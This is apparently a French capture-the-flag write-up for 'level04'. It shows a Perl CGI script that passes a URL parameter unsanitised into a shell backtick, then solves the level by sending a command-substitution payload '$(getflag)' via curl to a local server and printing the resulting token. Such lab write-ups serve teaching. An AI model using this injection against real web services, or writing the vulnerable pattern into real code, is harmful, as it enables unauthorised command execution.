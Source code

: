 # Rapport CTF - [level04]

### Observation:
En arrivant sur le level on trouve un script perl nommer `level04.pl` qui a été créer par flag04 et donc a les droits d'utiliser des commandes de flag04.

### Code:
On `cat` le code `cat level04.pl`:
```pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
$y = $_[0];
print `echo $y 2>&1`;
}
x(param("x"));
```

On peut voir que le code print la variable `y` qui est le premier argument de `x`


### Solution :
Nous pouvons donc modifier la variable x pour exécuter des commandes: 
`curl http://localhost:4747/level04.pl?x=command`
Nous devons utiliser curl pour demander directement au serveur sans passer par l'exécutable pour avoir les drois de `flag04`.
`curl http://localhost:4747/level04.pl?x='$(getflag)'`

Nous obtenons donc directement le mot de passe de level05 sans avoir besoin de passer par flag04.

token : ne2searoevaevoem4ov4ar8ap
